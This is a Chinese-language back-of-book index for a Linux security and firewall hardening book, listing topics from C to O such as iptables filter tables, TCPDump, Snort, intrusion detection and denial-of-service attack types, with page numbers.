- 缓存。参见 Squid
- Caldera，更新和补丁。参见 更新，Caldera
- 主叫号码识别, 381
- 金丝雀。参见 破解者陷阱
- 捕获
  - FTP 会话, 445
  - HTTP 会话, 439–444
  - ICMP .ping, 446
  - SMTP 会话, 444–445
  - SSH 会话, 445
- 卡数据保护。参见 信用卡数据保护
- 卡内基梅隆大学, 587
- 案例。参见 起诉
- 案例研究, 551–566
- 案例研究，追踪破解者, 508
- CD-ROM (Compact Disk-Read Only Memory), 612–614
  - CyberProtect 模拟器, 612
- 中央情报局。参见 CIA
- CERT, 583, 587
- CERT，向其报告事件, 413
- CGI
  - 适当的语言, 28
  - 不安全的, 26
  - 密码策略（参见 密码）
  - 漏洞, 20, 26
  - 编写安全的, 602
- 链, 33
- 规则上的链命令, 248
- 通道,
  - 被动模式 FTP 数据通道, 315–318
  - 端口模式 FTP 数据通道, 315–317
- chargen，DoS, 95
- chargen 服务, 225
- 校验和，MD5, 585
- Chkrootkit, 417–418
  - 下载, 418
  - 局限性, 420–421
  - 应对感染, 419–421
  - 运行, 418–419
  - 安全性, 421–422
  - 系统二进制文件, 421–422
  - 何时使用, 422
- chroot, 140, 150
- CIA, 2, 516
- CIDR (无类别域间路由), 192
- CIFS, 156
- A 类地址, 214–215
- B 类地址, 214
- C 类地址, 214
- D 类地址, 214
- E 类地址, 214
- 笔记本上的机密数据, 535–538
- 无类别域间路由 (CIDR), 192
- 无类别子网划分, 192
- 明文。参见 密码，SNMP 中的明文
- 客户端
  - AUTH 客户端, 297
  - DNS 查询, 293–295
  - 出站客户端对远程 FTP 服务器的访问
    - 通过控制通道的出站 FTP 请求, 315
    - 被动模式 FTP 数据通道, 315–317
    - 端口模式 FTP 数据通道, 315
  - 远程客户端
    - 电子邮件, 306–307
    - 为其托管 Usenet 新闻服务器, 308–309
  - 远程站点访问, 310
  - SSH 服务器访问, 312–313
- CMOS
  - 配置, 114–115
  - 密码, 115–116
- CMU。参见 卡内基梅隆大学
- 冒号 (:), 246
- 常见入侵, 120–183
- `comp.os.linux.security`, 589
- `comp.security.announce`, 589
- 妥协
  - 检测（另参见 文件系统完整性检查）
    - 使用 RPM, 494–496
    - 使用 Tar, 491–494
  - 恢复, 491–493
- 被妥协的系统。参见 入侵检测
  - 入侵检测, 406
  - Snort, 454, 456
- 计算机应急响应小组。参见 CERT
- compucon, 45
- 配置
  - 初始, 58
  - 为入侵做准备, 109–113
  - 程序, 28
  - IP 链的工具, 598
`CONFIG_IP_ALWAYS_DEFrag`, 567–584
面向连接的协议, 189–190
连接状态, 279–281
无连接协议, 189–190
常量
- 防火墙示例中使用的符号常量, 274
控制通道, 150
控制消息 (ICMP), 330–331
顾问, 614–616
内容过滤, 177
控制, 在入侵后夺回控制权, 465–477
控制 FTP 上传, 145
反制攻击, 521
`coverage.net.com/Resources/Info/Glossary/`, 604
被攻破的, 追踪成本, 461–463
Cracker Trap（黑客陷阱）, 109–111
黑客
- 攻击, 终结, 476–477
- 定义, 51
- 检测, 82, 109–111, 346–351, 364–368, 369–370, 375, 491–496
- 查找, 501
- 未来代码, 581
- 定位, 506–507
- 误导, 508–511
- 端口, 590
- 进程, 分析, 467–476
- 进程, 查找, 466–467
- 修复损害, 479–500
- 追踪, 508
- 追踪, 案例研究, 508
- 软件（参见 crackz）
爬虫。参见 机器人
Cricklet, 416
`cron`
- 调用 Logcheck, 351
- 监视黑客, 381
`cuba.xs.4all.nl/tim/scvs/`, 600
自定义内核, 272
CyberProtect 模拟器 CD-ROM, 612

## D

守护进程, 201
- `ntpd`, 329–330
- 状态报告, 405
文件系统损害, 488–489
损害, 修复, 479–500
DARPA（国防高级研究计划局）, 587
DARPA 模型, 189
数据库
- 信用卡数据, 516
- 策略, 533
- PostgreSQL, 606
数据链路层（OSI 模型）, 188
`dd`, 407
`ddd`, 602。另请参见 分析黑客程序
DDoS。参见 DoS, DDoS
`dd_multi`, 47
七大不可饶恕之罪, 21
死亡。参见 死亡之Ping
Debian, 更新和补丁。参见 更新, Debian
Debian 防火墙, 启动引导, 338–339
调试器。参见 分析黑客程序
调试, 337–338
欺骗工具包, 375–378
- 局限性, 570
默认策略
- 定义, 277–278
- 包过滤防火墙, 210–212
- 规则, 279
国防高级研究计划局。参见 DARPA
国防信息系统局。参见 DISA
已删除的可执行文件。参见 可执行文件, 已删除
拒绝服务攻击。参见 DoS, 411
- “考虑领域, 228
- “拒绝服务”（论文）, 222
- 入站数据包
  - 缓冲区溢出, 227
  - 分片炸弹, 226–227
  - ICMP 重定向炸弹, 227–228
  - Ping 泛洪, 224
  - 死亡之 Ping, 224–225
  - TCP SYN 泛洪, 222–224
  - UDP 泛洪, 225
  - Smurf 攻击, 332, 449
默认拒绝所有策略, 211, 286


# 拒绝
- 拒绝访问问题站点, 335–336
- 拒绝数据包, 213

# 国防部
参见 `DOD`

# 桌面
策略, 534–535

# 目的地址
- `iptables`, 272

# 目的 NAT
参见 `DNAT`

# 目的不可达消息
331

# 检测
另请参见 发现入侵（参见 入侵, 检测） 混杂模式, 579

# 检测入侵
403–405, 415, 429–431
- `ARPWatch`, 431, 458–460
- `Chkrootkit`, 417–418
  - 下载, 418
  - 局限性, 418
  - 响应感染, 419–420
  - 运行, 418–419
  - 安全性, 421–422
  - 系统二进制文件, 421–422
  - 使用时机, 422
- 文件系统, 406–407, 422–423
- 事件报告, 409–410
  - 优点, 410
  - 拒绝服务攻击, 411
  - 事件类型, 411–412
  - 应包含的信息, 413–414
  - 在线资源, 414
  - 事件报告地点, 412–413
- 日志监控, 423–425
- 网络分析工具, 415–417
  - `ARPWatch`, 417
  - `Cricket`, 416
  - `MRTG`, 416
  - `ntop`, 416
  - 嗅探器放置, 417
  - `Snort`, 416
  - 交换机/集线器, 416–417
  - `TCPDump`, 415–416
- 渗透测试
  - `Hping2`, 427
  - `Nessus`, 428
  - `Nikto`, 427–428
  - `Nmap`, 426–427
- 预防攻击
  - `Bastille Linux`, 425
  - 内核增强, 424–425
  - 渗透测试, 428
  - 更新, 425–426
- 响应, 407–409
- 安全审计工具, 407
- `Snort`, 431, 453
  - 警报, 457
  - 配置, 454–455
  - 下载, 453
  - 安装, 453–454
  - `Swatch`, 457
  - 测试, 455–457
- 系统配置, 406
- 系统日志, 405–406
- 系统性能, 407
- `TCPDump`, 431–432
  - 异常数据包活动, 446–447
  - 命令行选项, 433–434
  - 捕获 DNS 查询, 445
  - 下载, 432
  - 表达式, 435–437
  - 捕获 FTP 会话, 445
  - 捕获 HTTP 会话, 439–444
  - 捕获 ICMP Ping, 446
  - 安装, 432
  - `LAND` 攻击, 450–451
  - 常规扫描（`nmap`）攻击, 447–449
  - 使用其记录流量, 451–453
  - 捕获 SMTP 会话, 443–444
  - `Smurf` 攻击, 449
  - 捕获 SSH 会话, 445
  - `Xmas Tree` 攻击, 450
- 用户账户, 407

# `DHCP`（动态主机配置协议）
- 消息, 326–327
- 协议, 327
- 服务器, 访问, 326–329

# `DHCPACK` 消息
326

# `DHCPDECLINE` 消息
327

# `DHCPDISCOVER` 消息
326

# `DHCPINFORM` 消息
327

# `DHCPOFFER` 消息
326

# 区分服务（`DS`）字段
262

# 区分服务控制协议（`DSCP`）
262

# 定向广播
阻止, 283

# 方向限定符（`TCPDump`）
436–437

# `DISA`（国防信息系统局）
612–614

# 磁盘驱动
加密的, 600

# 软盘
参见 软盘

# 设备处理
535

# 分布式拒绝服务
参见 `DoS`, `DDoS`

# 服务分割
109

# `DNAT`（目的 NAT）
241
- `nat` 表目标扩展, 266–267

# `DNS`（域名服务）
149–151, 200
- `BIND` 端口使用, 294–295
- 启用, 290–293
- 作为客户端的 DNS 查询, 293–295
- 作为转发服务器的 DNS 查询, 294–295
- 漏洞, 150, 558–560
- 区域传输, 291
- 使用 `TCDump` 捕获查询, 445

# 域名服务
参见 `DNS`

# 域名注册商
559

# 多米诺骨牌效应
77

# `DoS`（拒绝服务）
575–578
- `DDoS`（分布式拒绝服务）
  - 带刺铁丝网（`Barbed Wire`）, 575
- 定义, 74
- 事件, 461–463
- 业务损失成本, 461–463
- `mstream`, 575
- 最近的, 575–578
- `shaft`, 575
- `TFN2000`, 575, 579
- `trin00`, 575
- 在 `charger` 中, 95
- 在 `echo` 中, 95
- 追踪成本, 461–463

# `DoS` 攻击
参见 拒绝服务攻击

# `Doubleclick`
阻止, 108

# 下载
- `Chkrootkit`, 418
- `Snort`, 453
- `TCPDump`, 432

# 驱动
加密磁盘, 600

# 丢弃的数据包
记录
- 入站数据包, 333–335
- 出站数据包, 335

# 丢弃伪造的多播网络数据包
283

# `DS`（区分服务）字段
262

# `DSCP`（区分服务控制协议）
262

# `DSL`
58

# `dstlimit` 过滤表匹配扩展
255–256

# `DTK`
参见 欺骗工具包

# 动态主机配置协议
参见 `DHCP`

# 动态 IP 地址
339

## E

# `echo DoS`
95

# `echo` 应答, `ICMP`
577, 579–580

# `echo` 服务
225

# `echo` 应答消息
332–334

# `echo` 请求消息
275, 332–334

# 出口过滤
参见 防火墙出口过滤

# 电子邮件
299
- 客户端/服务器电子邮件组合, 303
- `IMSP`, 299–303
- 策略, 530–531
- `POP`, 133–136, 299–302
- 远程客户端, 306–307
- `SMTP`, 299–300
- `SMTP` 客户端, 299–305
- `SMTP` 服务器, 300–302, 305–306
- “电子邮件轰炸与垃圾邮件”, 228

# 启用
- `DNS`, 290–293
- 作为客户端的 DNS 查询, 293–294
- 作为转发服务器的 DNS 查询, 294–296
- 区域传输, 291
- Internet 服务, 290, 296–298
- 内核监控支持, 275–276
- 回环接口, 277
- 出站 `traceroute` 请求, 325–326

# 加密磁盘驱动
600

# 端到端透明性
186

# 设备处理
538–539

# `ESTABLISHED` 匹配
258

# `Ethereal`
使用, 369–370

# `ethereal.zing.org/`
595

# 以太网地址
200–201

# 以太网卡
参见 `NIC`

# 证据
处理, 519

# 可执行文件
已删除
- 分析, 467
- 检测, 392–393

# 利用
参见 漏洞

# `EXPN` 命令
禁用, 128

# 表达式（`TCPDump`）
- 方向限定符, 436–437
- 基元, 437
- 协议限定符, 437
- 类型限定符, 435–436

## F

# 伪造源地址
参见 防火墙出口过滤

# 伪造
参见 欺骗

# 虚假数据
489

# `FBI`（联邦调查局）
514–516
- 电话号码, 515

# `fetchmail-ssl`（基于 SSL 封装的 `imap/pop3` 客户端）
153

# 文件
- 权限, 51–53
- 程序（参见 分析黑客程序）
- 服务器策略, 533
- 系统完整性检查,
  - `samhain`, 391
  - `Tripwire`, 386–392
  - 使用 `tar`, 491–494
- 系统, 损害方式, 488–489

# 文件
- 查找可疑文件, 383–384
- 损害方式, 488–489
- 分析可疑文件, 384–385

# 文件传输协议
参见 `FTP`

# 文件（日志）
参见 日志记录

# 过滤表
240–241, 245–246
- `addrtype` 过滤表匹配扩展, 263–264
- `dstlimit` 过滤表匹配扩展, 255–256
- 过滤表目标扩展, 251–252
- `icmp` 过滤表匹配运算符, 250–251
- `iprange` 过滤表匹配, 264
- `iptables`, 240, 242
- `length` 过滤表匹配, 264
- `limit` 过滤表匹配扩展, 254–255
- `mac` 过滤表匹配扩展, 260
- `mark` 过滤表匹配扩展, 261
- 匹配操作, 248–249
- `multiport` 过滤表匹配扩展, 253–254
- 针对整个链的操作, 247
- 针对规则的操作, 248


owner 过滤表匹配扩展, 260–261

state 过滤表匹配扩展, 256–260

目标扩展, 252

tcp 过滤表匹配操作, 250

tos 过滤表匹配扩展, 261–262

udp 过滤表匹配操作, 250

ULOG 表目标扩展, 252–253

unclean 过滤表匹配扩展, 262–263

过滤。另请参见 拒绝服务攻击

- AUTH 请求, 297–298
- 防火墙出口。参见 防火墙出口过滤
- FTP, 315

入站数据包, 208–213

- 链, 208
- 默认策略, 210–212
- 一般端口扫描, 218
- 入站 TCP 连接状态过滤, 217
- iptables, 270–271
- 本地目的地址过滤, 216
- 本地目的端口过滤, 217
- 端口扫描, 221–222
- 远程源地址过滤, 213–215
- 远程源端口过滤, 217
- 源路由数据包, 229
- 隐蔽扫描, 220
- 目标端口扫描, 218–220

出站数据包, 229

- 本地源地址过滤, 230
- 本地源端口过滤, 231
- 出站 TCP 连接状态过滤, 232
- 远程目的地址过滤, 230–231
- 远程目的端口过滤, 231

rp 过滤器, 276

FIN 标志, 198

`find` 命令, 53–58, 383, 527–528

查找

- 黑客进程, 466–467
- 混杂进程, 397–398
- set-UID 程序, 499–500
- 可疑文件, 383–384
- 特洛伊木马, 491–493

finger 漏洞, 88–89

防火墙

- 自适应的（参见 自适应防火墙）
- 出口过滤, 解释, 74
- 策略, 533–534
- 规则和局限性, 580
- 状态检测, 580
- 隧道通过, 71–73
- 漏洞, 67–80

防火墙规则。参见 规则

首个匹配规则获胜, 279

first.org/, 591

修复。参见 缺陷修复；更新

标志

- ACK, 217
- TCP 状态标志, 279–280

泛洪

- Ping 泛洪, 224
- TCP SYN 泛洪, 222–224
- UDP 泛洪, 225

软盘或磁盘, 6

取证, 554–556, 590

伪造邮件和新闻, 130–131

过度分叉, sendmail, 128

表单, 默认值漏洞, 32

格式, 漏洞, 584

表单, 漏洞, 28

FORWARD 链, 245

FORWARD 策略, 277–278

分片, 193–194, 567–587

分片攻击, 567–584

入站数据包的分片炸弹, 226–227

分片的 ICMP 消息, 331

FTP（文件传输协议）, 106, 313–314

- 替代方案, 138–139
- 匿名, 141–145
- 禁用用户, 140

入站访问 FTP 服务器

- 入站 FTP 请求, 316–317
- 被动模式 FTP 数据通道响应, 316–317
- 端口模式 FTP 数据通道响应, 316–317

出站访问 FTP 服务器

- 通过控制通道的出站 FTP 请求, 315
- 被动模式 FTP 数据通道, 315–317

# 索引

## F

- **FTP（文件传输协议），（续）**
  - 端口模式 FTP 数据通道，315
  - 包过滤，315
  - 端口模式，315
  - 协议，315
  - 代理漏洞，145–146
  - TFTP，318
  - 上传，受控，145
  - 漏洞，138–140
- `ftp://ftp.ee.lbl.gov/libcap.tar.Z`, 595
- `ftp://ftp.ee.lbl.gov/pcapture-0.2.1.tar.Z`, 595
- `http://ftp.ee.lbl.gov/tcpdump-3.4.tar.Z`, 595
- `http://ftp.slackware.com/pub/linux/slackware/slackware-current/patches/`, 604
- `http://ibiblio.org/pub/packages/security/ssh/`, 593
- `http://updates.redhat.com/`, 604

## H

- **托管**
  - IMAP 服务器，307
  - POP 服务器，306
  - Usenet 新闻服务器，308–309
- 主机名，200
- `hosts.equiv`, 146
- HostSentry, 357
- “如何从 CGI 中用户提供的数据中移除元字符”，227
- Hping2, 427
- **HTTP（超文本传输协议）**
  - 远程网站，访问，319–321
  - 对话，使用 TCPCDump 捕获，439–444
  - https, 599
- 集线器，416–417

## G

- `gaim.sourceforge.net/index.php`, 531
- **网关防火墙**
  - ALGs（应用级网关），208
- GBI, 516
- gdb. 参见 分析黑客程序；ddd
- Gee, Larry, 21, 156
- Georgia, 516
- 常规端口扫描，218
- getdel, 392
- gets(). 参见 缓冲区溢出攻击，防御
- **术语表**
  - CNET, 604
  - NSA, 604
- Gog&Magog（文件系统完整性检查器），391
- group, 添加。参见 groupadd
- `groupadd`, 376
- 猜测，账户，572–573
- gusty 入侵事件，545–550

## H

- `-h help` 命令，247
- **hacker。** 另参见 cracker
  - 定义，51
  - 加固，59
- **头部**
  - IP, 191
  - TCP（传输控制协议），196–198
- 高安全性，87
- 福尔摩斯方法，397
- 主机类型限定符（TCPDump），435

## I

- **IANA（互联网号码分配机构）**，201
  - IP 地址注册和分配，284
  - 端口号分配，285
- ibiblio.org（前身为 sunsite 和 metalab），607
- **ICMP（互联网控制消息协议）**，195–196
  - 控制和状态消息，330–331
  - 目标不可达，331
  - 回显应答，577, 579–580
  - 回显请求，275
  - 分片消息，331
  - 主机/网络不可达，576
  - 参数问题，331
  - 源抑制，331
  - 超时，331
  - icmp 过滤表匹配操作符，250–251
  - ping 消息
    - 使用 TCPCDump 捕获，446
    - 传入 ping，332–334
    - 传出 ping，332
    - 重定向消息，227–228, 275
- ICQ, 531
- ident, 179–180
- ident 协议，296–297
- `ifconfig`, 394
- 非法地址，214–215
- ILOVEYOU 蠕虫，534
  - 阻止，571–572
- **IMAP（互联网消息访问协议）**，152, 299–300
  - 托管 IMAP 服务器以供远程客户端使用，307
  - 电子邮件，接收，302–304
  - imaps（SSL 封装的 imap），153, 599
- 冒充。参见 欺骗
- **事件，报告**
  - 优点，410
  - 拒绝服务攻击，411
  - 事件类型，411–412
  - 应包含的信息，413–414
  - 在线资源，414
  - 事件报告地点，412–413
- 传入目标不可达消息，331
- **传入数据包**
  - 拒绝服务攻击，411
  - 考虑领域，228
  - 缓冲区溢出，227
  - 分片炸弹，226–227
  - ICMP 重定向炸弹，227–228
  - Ping 泛洪，224
  - 死亡之 Ping，224–225
  - Smurf 攻击，332, 449
  - TCP SYN 泛洪，222–224
  - UDP 泛洪，225
  - 过滤
    - 传入 TCP 连接状态过滤，217
    - 本地目标地址过滤，216
    - 本地目标端口过滤，217
    - 远程源地址过滤，213–215
    - 远程源端口过滤，217
    - 源路由数据包，229
  - iptables, 242
  - 限制为选定的远程站点，215
  - 探测，217
  - 扫描，217
    - 常规端口扫描，218
    - 应对端口扫描，221–222
    - 隐蔽扫描，220


- 针对性端口扫描，218–220
- 传入 TCP 连接状态过滤，217
- `inetd`, 96
  - 特洛伊木马，474–475
  - `inetd.conf`, 61
  - `inetdconvert`, 61
  - `ingreslock`, 573
- **初始化**
  - 防火墙，273–274
  - 定义默认策略，277–278
  - 内核监控支持，275–276
  - 回环接口，277–278
  - 移除现有规则，276–277
  - 绕过规则检查，279–281
  - 源地址欺骗，281–285
  - 隐蔽扫描，279
  - 符号常量，274
  - TCP 状态标志，279–280
- `innd`, 180–181
- 不安全程序，28
- **安装**
  - 防火墙，336–339
  - Snort, 453–454
  - TCPDump, 432
- Instant Messenger (IM), 531–532
- 完整性检查。参见 文件系统完整性检查
- 文件系统完整性，422–423
- 互联网号码分配机构。参见 IANA
- 互联网控制消息协议。参见 ICMP
- 互联网消息访问协议。参见 IMAP
- 互联网协议。参见 IP
- 互联网安全系统。参见 ISS
- 互联网服务，启用，290, 296–298。另参见 DNS（域名系统）
- 《TCP/IP 网络互联》第一、二、三卷（书籍），614
- 解释日志文件，481–488
- 入侵者。参见 黑客
- 入侵，准备应对的配置，109–113
- **入侵检测**，403–405, 415, 429–431
  - ARPWach, 431, 458–460
  - Chkrootkit, 417–418
    - 下载，418
    - 局限性，420–421
    - 应对感染，419–421
    - 运行，418–419
    - 安全性，421–422
    - 系统二进制文件，421–422
    - 使用时机，422
  - 文件系统，406–407, 422–423
  - 事件报告，409–410
    - 优点，410
    - 拒绝服务攻击，411
    - 事件类型，411–412
    - 应包含的信息，413–414
    - 在线资源，414
    - 事件报告地点，412–413
  - 日志监控，423–425
  - 网络分析工具，415–417
    - ARPWach, 417
    - Cricket, 416
    - MRTG, 416
    - ntop, 416
    - 嗅探器放置，417
    - Snort, 416
  - 交换机/集线器，416–417
  - TCPDump, 415–416
  - 渗透测试
    - Hping2, 427
    - Nessus, 428
    - Nikto, 427–428
    - Nmap, 426–427
  - 预防攻击
    - Bastille Linux, 425
    - 内核增强，424–425
    - 渗透测试，428
    - 更新，425–426
  - 响应，407–409
  - 安全审计工具，407
  - Snort, 431, 453–454
    - 警报，457
    - 配置，454–456
    - 下载，453
    - 安装，453–454
    - Swatch, 457
    - 测试，456–457
  - 系统配置，406
  - 系统日志，405–407
  - 系统性能，407
  - TCPCDump, 431–432
    - 异常数据包活动，446–447
    - 命令行选项，433–434
    - DNS 查询，捕获，445
    - 下载，432
    - 表达式，435–437
    - FTP 对话，捕获，445
    - HTTP 对话，捕获，439–444
    - ICMP pings，捕获，446
    - 安装，432
    - LAND 攻击，450–451
    - 常规扫描（nmap）攻击，447–449
    - 使用其记录流量，451–453
    - SMTP 对话，捕获，443–444
    - Smurf 攻击，449
    - SSH 对话，捕获，445
    - 圣诞树攻击，450
  - 用户账户，407

## I

- **IP（互联网协议）**
  - 地址，190–193, 501–503, 504
  - 分配，284
  - 广播地址，191–194
  - 类别，191, 214–215
  - 表示为符号名称，272
  - 头部，192
  - 安装防火墙，339
  - 受限广播地址，191
  - 回环地址，191
  - 组播，192
  - 网络地址 0, 191, 283
  - 定向网络广播地址，191
  - 单播，192
  - 广播，194–195
  - 以太网地址，200–201
  - 分片，193–194
  - 头部，191
  - 主机名，200
  - 组播，194–195
  - 子网掩码，192
  - 子网，190–193
- `ipchains`, 270
  - 与 `iptables` 的比较，236
  - 数据包遍历，237
- IPFW 数据包遍历，237
- `ipfwadm`, 270
- IP 级攻击。参见 分片攻击；死亡之 Ping
- `iprange` 过滤表匹配，264
- **iptables**, 235, 270–271
  - 命令语法，239–240, 246
  - 与 `ipchains` 的比较，236
  - 目标地址，272
  - 过滤表，240–242, 245–246, 253
    - `addrtype` 过滤表匹配扩展，263–264
    - `dstlimit` 过滤表匹配扩展，255–256
    - 过滤表目标扩展，251–252
    - `icmp` 过滤表匹配操作符，250–251
    - `iprange` 过滤表匹配，264
    - `length` 过滤表匹配，264
    - `limit` 过滤表匹配扩展，254–255
    - `mac` 过滤表匹配扩展，260
    - `mark` 过滤表匹配扩展，261
    - 匹配操作，248–249
    - `multiport` 过滤表匹配扩展，253–255
    - 对整条链的操作，247
    - 对规则的操作，248
    - `owner` 过滤表匹配扩展，260–261
    - `state` 过滤表匹配扩展，256–260
    - 目标扩展，252
    - `tcp` 过滤表匹配操作，250
    - `tos` 过滤表匹配操作，261–262
    - `udp` 过滤表匹配操作，250
    - ULOG 表目标扩展，252–253
    - `unclean` 过滤表匹配扩展，262–263
    - 漏洞，569
  - 传入数据包，242
  - `ipchains` 兼容性，270
  - `mangle` 表，241, 244–245, 267
  - 伪装，243
  - `nat` 表，241–245
    - `BALANCE` nat 表目标扩展，267
    - `DNAT` nat 表目标扩展，266–267
    - `MASQUERADE` nat 表目标扩展，266

## 索引

### I

- IRC，531
- IRS，565
- ISP 滥用中心，向其中报告事件，413
- ISS（Internet Security Systems），588

### J

- Java，ssh，593
- Joy，Bill，551

### K

- kernels（内核），424–425
  - 漏洞
    - 在 2.2 中，100
    - 在 2.4 中，100
- kernel-monitoring（内核监控）支持，启用，275–276
- kremvax.com/，522

### L

- LAN。参见 monitor；NIC；MAC；Ethernet
- laptop（笔记本电脑）
  - 其中的机密数据，535–538
  - 策略，535–538
  - 失窃，535–538
- Lawrence，Berkeley Lab（LBL），595
- legal system（法律体系），513
- length filter table match（长度过滤表匹配），264
- liability（责任），520–521
- Libsafe，600
- libwrap，TCP Wrappers 库，177


### M

- `LIDS`。参见 Linux Intrusion Detection System
- `lilo`，密码，116–117
- `limit filter table match extensions`（限制过滤表匹配扩展），254–255
- `limited broadcast addresses`（受限广播地址），191
- `limiting incoming packets`（限制入站数据包），215
- `limiting access`（限制访问），63
- `link local network addresses`（链路本地网络地址），215
- `Linux Application Development`（《Linux 应用程序开发》书籍），614
- `Linux Intrusion Detection System (LIDS)`（Linux 入侵检测系统），594
- `linux, secure`（安全 Linux），33
- `linux-security News group`，589
- `linux.01.gwdg.de/~alamham/ppdd.html`，600
- `Linux vendors`，向其中报告事件，413
- `local destinations address filtering`（本地目标地址过滤），216
- `local destination port filtering`（本地目标端口过滤），217
- `local services`，protecting（保护本地服务），233
- `local source address filtering`（本地源地址过滤），230
- `local source port filtering`（本地源端口过滤），231
- `locking`，programs，defeating（锁定，程序，绕过），113
- `locking`，screen。See screen locking, automatic
- `log file`（日志文件）
  - 分析器，346–351
  - 解读，481–488
  - 漏洞，140, 143
- `LOG target extensions`（LOG 目标扩展），251
- `Logcheck`，346–351
- `logging`（记录日志）
  - 被丢弃的包
    - 入站包，333–335
    - 出站包，335
  - 防火墙日志消息，281
  - 入侵检测，405–406
  - 匹配数据包，282
  - 远程，480
- `login`（登录）
  - 监控，357
- `login failures`（登录失败）
  - 监控，424–425
- `LogSentry`。See Logcheck
- `LogWatch`，63
- `lookups`（查找）
  - 作为客户端的 DNS 查找，293–295
  - 作为转发服务器的 DNS 查找，294–295, 296
- `loopback addresses`（环回地址），191, 215, 282
- `loopback interfaces`，enabling（启用环回接口），277
- `lpd`，179
- `ls`。其中的木马，475

### M

- `MAC`
  - 检测，364–368
  - `mac filter table match extensions`（mac 过滤表匹配扩展），260
- `MacOS`，ssh，593
- `mail`（邮件）
  - 伪造，130–131
- `mailing lists`。See resources, mailing lists
- `mailx`。See Mail
- `malformed broadcast addresses`（畸形广播地址），215
- `mangle table`（mangle 表），241, 244–245
  - commands，267
- `Man-in-the-middle attack`（中间人攻击）
  - Samba，174
- `Mandrake`，updates and patches。See updates, Mandrake
- `manual`，printing，383
- `maps.vix.com`。See www.mail-abuse.org/
- `mark mangle table target extensions`，267
- `mark filter table match extensions`，261
- `mark mangle table target extensions`，267
- `MASQUERADE`，241
- `MASQUERADE nat table target extensions`，266
- `masquerading`。See NAT (Network Address Translation)；spoofing；IP Masquerading
- `match extensions`（匹配扩展），240
  - `addrtype filter table`，263–264
  - `dstlimit filter table`，255–256
  - `filter table`，253
  - `iprange filter table`，264
  - `length filter table`，264
  - `limit filter table`，254–255
  - `mac filter table`，260
  - `mark filter table`，261
  - `multiport filter table`，253
  - `owner filter table`，260–261
  - `state filter table`，256–260
  - `tos filter table`，261–262
  - `unclean filter table`，262–263
- `MCI`，564–565
- `MD5`。Also see checksum。`MD5 password`，41–42
- `Merritt`，Doug，466, 551
- `messages`（消息）
  - ICMP 控制与状态消息，330–331
  - Destination Unreachable，331
  - echo-request，275
  - fragmented messages，331
  - Parameter Problem，331
  - Source Quench，331
  - Time Exceeded，331
  - redirect messages，275
- `metlab`。See ieee.org
- `M5 (British Secret Service)`，535
- `Microsoft`。Also see Windows
  - 国家安全威胁，33–34
  - 木马，585
- `Microsoft’s GUID`，574
- `Military Intelligence`，516
- `mistakes`，user，45–49
- `mode 1777`，52
- `mode 711`，56
- `modem`，cable。See cable modem
- `money`。See consultants
- `monitor`（监控器）
  - Etheral，369–370
  - monitoring，343–381
- `monitoring`（监控）
  - Apache，399
  - 使用 Etheral，369–370
  - 登录，357
  - 登录失败，424–425
  - 日志，423–425
  - 网络。See network analysis tools
  - 端口，351–357
  - 进程，378–381
  - 使用 tethereal，370–375
  - web 页面，398–402
- `Morris worm`。See worm, Morris
- `Morse code`，580
- `mount`，120–122
  - 漏洞，554–556
- `MRTG (Multi Router Traffic Grapher)`，416
- `mstream DDoS Trojan`，575
  - 查找，500
- `multicast addresses (IP)`，192
- `multicast destination addresses`，283
- `multicast packets`，283
- `multicast registration`，283
- `multicasting (IP)`，194–195
- `multihomed firewalls`，269
- `multiport filter table match extensions`，253

### N

- `name daemon`。See DNS
- `named`。See DNS
- `names`，hostnames，200
- `NAT (Network Address Translation)`，186, 208, 236, 242
  - 双向 NAT，242
  - 包翻转，244


- SNAT，241, 243–244
- nat table target extensions，265–266
- Twice NAT，243
- nat table，241–245
  - target extensions
    - BALANCE nat table target extensions，267
    - DNAT nat table target extensions，266–267
    - MASQUERADE nat table target extensions，266
    - REDIRECT nat table target extensions，267
    - SNAT nat table target extensions，265–266
- National Security Agency。*参见* NSA
- national security threat，Microsoft，33–34
- Naval Surface Warfare Center，598
- Navy，analysis tool，598
- Nessus (Network security auditor/scanner)，597
- net type qualifiers (TCPDump)，435
- Netfilter，235。*另参见* iptables
  - 与 ipchains 的对比，236
  - 包遍历，238–239
- Netscape
  - 漏洞，107
- netstat，96
  - 使用，82
- network address 0，191, 283
- Network Address Translation。*参见* NAT
- network analysis tools，415–417, 429–431
  - ARPWatch，417, 431, 458–460
  - Cricket，416
  - MRTG，416
  - ntop，416
  - 嗅探器部署，417
  - Snort，416, 431, 453
    - 警报，457
    - 配置，454, 456
    - 下载，453
    - 安装，453–454
  - Watch，457
    - 测试，456–457
  - switches/hubs，416–417
  - TCPDump，415–416, 431–432
    - 异常包活动，446–447
    - 命令行选项，433–434
    - 捕获 DNS 查询，445
    - 下载，342
    - 表达式，435–437
    - 捕获 FTP 会话，445
    - 捕获 HTTP 会话，439–444
    - 捕获 ICMP ping，446
    - 安装，432
    - LAND 攻击，450–451
    - 正常扫描 (nmap) 攻击，447–449
    - 记录流量，451–453
    - 捕获 SMTP 会话，443–444
    - Smurf 攻击，449
    - 捕获 SSH 会话，445
    - Xmas Tree 攻击，450
- network card。*参见* NIC
- network coordinators，向其中报告事件，412
- network-directed broadcasts，191
- Network File System (NFS)，288。*参见* NFS
- network interface card。*参见* NIC
- Network layer (OSI model)，189
- Network Mapper (Nmap)，426–427
- Network news。*参见* news
- Network News Transport Protocol (NNTP)，307–308
- network ports。*参见* ports
- network services。*参见* services
- network sniffing
  - 使用 Ethereal，369–370
  - 使用 tcpdump，372–375
- Network Time Protocol (NTP)，329
- networks。*另参见* network analysis tools
  - hubs，416–417
  - OSI (Open System Interconnection) model，187–190
    - 无连接与面向连接协议，189–190
    - Datalink layer，188
    - Network layer，189
    - Physical layer，188
    - Presentation layer，189
    - Session layer，189
    - Transport layer，189
  - switches，416–417
- news feeds，309
- New York State Attorney General，517
- News，180–181
  - 伪造，130–131
  - groups (*参见* resources, News groups；News，伪造)
- NFS (Network File System)，120–122, 288
  - 问题与解决方案，93
  - RFC 1094，603
  - 关闭，92–93
  - 漏洞，92–93
  - 绑定哪个接口，66–67
- NIC (Network Interface Card)，579。*另参见* MAC
  - 检测混杂模式，393
  - 查找混杂进程，397–398
- nm。*参见* analyzing cracker programs
- nmap (Network scanner/prober)，426–427, 597
- NNTP (Network News Transport Protocol)，307–308
- normal scan (nmap) attacks，447–449
- No Such Agency。*参见* NSA
- NSA (National Security Agency)
  - 术语表，604
  - 视频，613
  - secure linux，33
- NSI。*参见* Network Solutions, Inc.
- ntop，416
- NTP (Network Time Protocol)，329
- ntpd daemon，329–330

### O
- Old software versions，25
